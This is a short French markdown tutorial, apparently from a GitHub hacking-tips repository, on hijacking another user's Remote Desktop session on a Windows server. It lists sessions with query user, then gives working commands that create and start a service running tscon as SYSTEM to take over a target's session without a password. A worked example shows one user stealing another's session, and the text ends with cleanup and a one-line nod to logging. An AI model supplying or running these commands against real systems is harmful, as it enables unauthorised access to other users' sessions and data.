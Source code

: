 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service (sc)
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :
*<process_name> est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)*
*<user 2_ID> est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker*
*<session_name> est le nom de **votre** session*
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
Commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png?raw=true)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto*
*<process_name> = hijack (nom du service - le nom n'a pas d'importance)*
*<user 2_ID> = 8 (ID de la session-cible)*
*<session_name> = rdp-tcp#1 (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
